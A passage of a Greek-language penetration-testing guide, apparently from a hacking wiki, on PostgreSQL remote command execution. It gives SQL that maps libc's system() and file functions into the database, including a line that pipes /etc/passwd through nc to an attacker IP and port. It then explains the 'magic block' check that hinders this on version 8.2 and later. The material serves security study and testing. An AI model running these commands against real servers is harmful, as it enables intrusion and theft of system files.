 Από την έκδοση 8.1 και μετά, επιβάλλεται μια συγκεκριμένη απαίτηση στις βιβλιοθήκες επεκτάσεων: πρέπει να είναι συμπιεσμένες με μια ειδική κεφαλίδα. Χωρίς αυτό, το PostgreSQL δεν θα τις εκτελέσει, διασφαλίζοντας ότι χρησιμοποιούνται μόνο συμβατές και δυνητικά ασφαλείς επεκτάσεις.

Επίσης, έχετε υπόψη ότι **αν δεν ξέρετε πώς να** [**ανεβάσετε αρχεία στον θύμα εκμεταλλευόμενοι το PostgreSQL θα πρέπει να διαβάσετε αυτή την ανάρτηση.**](big-binary-files-upload-postgresql.md)

### RCE σε Linux

**Για περισσότερες πληροφορίες ελέγξτε: [https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/](https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/)**

Η εκτέλεση εντολών συστήματος από το PostgreSQL 8.1 και παλαιότερες εκδόσεις είναι μια διαδικασία που έχει τεκμηριωθεί σαφώς και είναι απλή. Είναι δυνατόν να χρησιμοποιήσετε αυτό: [Metasploit module](https://www.rapid7.com/db/modules/exploit/linux/postgres/postgres_payload).
```sql
CREATE OR REPLACE FUNCTION system (cstring) RETURNS integer AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');

# You can also create functions to open and write files
CREATE OR REPLACE FUNCTION open(cstring, int, int) RETURNS int AS '/lib/libc.so.6', 'open' LANGUAGE 'C' STRICT;
CREATE OR REPLACE FUNCTION write(int, cstring, int) RETURNS int AS '/lib/libc.so.6', 'write' LANGUAGE 'C' STRICT;
CREATE OR REPLACE FUNCTION close(int) RETURNS int AS '/lib/libc.so.6', 'close' LANGUAGE 'C' STRICT;
```
<details><summary>Γράψτε δυαδικό αρχείο από base64</summary></details>

Ωστόσο, όταν επιχειρήθηκε σε μεγαλύτερες εκδόσεις **εμφανίστηκε το εξής σφάλμα**:
```c
ERROR:  incompatible library “/lib/x86_64-linux-gnu/libc.so.6”: missing magic block
HINT:  Extension libraries are required to use the PG_MODULE_MAGIC macro.
```
Αυτό το σφάλμα εξηγείται στην [τεκμηρίωση του PostgreSQL](https://www.postgresql.org/docs/current/static/xfunc-c.html):

> Για να διασφαλιστεί ότι ένα δυναμικά φορτωμένο αρχείο αντικειμένου δεν φορτώνεται σε έναν ασύμβατο διακομιστή, το PostgreSQL ελέγχει ότι το αρχείο περιέχει ένα “μαγικό μπλοκ” με τα κατάλληλα περιεχόμενα. Αυτό επιτρέπει στον διακομιστή να ανιχνεύει προφανείς ασυμβατότητες, όπως κώδικα που έχει μεταγλωττιστεί για μια διαφορετική κύρια έκδοση του PostgreSQL. Ένα μαγικό μπλοκ απαιτείται από την έκδοση 8.2 του PostgreSQL. Για να συμπεριλάβετε ένα μαγικό μπλοκ, γράψτε αυτό σε ένα (και μόνο ένα) από τα αρχεία πηγής του module, αφού έχετε συμπεριλάβει την κεφαλίδα fmgr.h:
>
> `#ifdef PG_MODULE_MAGIC`\
> `PG_MODULE_MAGIC;`\
> `#endif`

Από την έκδοση 8.2 του PostgreSQL, η διαδικασία για έναν επιτιθέμενο να εκμεταλλευτεί το σύστημα έχει γίνει πιο δύσκολη. Ο επιτιθέμενος απαιτείται είτε να χρησιμοποιήσει μια βιβλιοθήκη που είναι ήδη παρούσα στο σύστημα είτε να ανεβάσει μια προσαρμοσμένη βιβλιοθήκη. Αυτή η προσαρμοσμένη βιβλιοθήκη πρέπει να έχει μεταγλωττιστεί κατά της συμβατής κύριας έκδοσης του PostgreSQL και πρέπει να περιλαμβάνει ένα συγκεκριμένο "μαγικό μπλοκ". Αυτό το μέτρο αυξάνει σημαντικά τη δυσκολία εκμετάλλευσης των συστημάτων PostgreSQL, καθώς απαιτεί μια πιο βαθιά κατανόηση της αρχιτεκτονικής του συστήματος και της συμβατότητας εκδόσεων.
